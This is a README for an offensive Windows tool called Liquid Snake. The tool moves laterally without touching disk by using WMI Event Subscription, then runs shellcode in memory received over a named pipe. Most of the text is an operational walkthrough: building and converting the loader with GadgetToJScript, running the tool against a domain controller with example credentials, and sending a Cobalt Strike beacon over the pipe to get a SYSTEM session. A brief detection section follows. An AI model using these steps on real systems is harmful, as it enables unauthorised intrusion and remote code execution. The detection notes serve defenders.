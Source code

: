 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:

![](images/poc.jpeg)


## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman deahtoFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Second some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:

![](images/2021-08-31-16-42-30.png)

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

![](images/2021-08-31-16-43-15.png)

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

![](images/2021-08-31-16-41-25.png)

If everything worked as expected, you should obtain a SYSTEM beacon:

![](images/2021-08-31-16-41-05.png)

NOTE: The current LiquidSnake version contains artefact generated by GadgetToJScript that targets .NET version 4.x. If your target host has only 3.5 installed, this will fail. Simply repeat the same process but using the appropriate .NET version when building GadgetToJScript.


## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Creation and deletion of a WMI Event Filter in a short period of time, see Sysmon event IDs 19, 20, 21, 22
- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 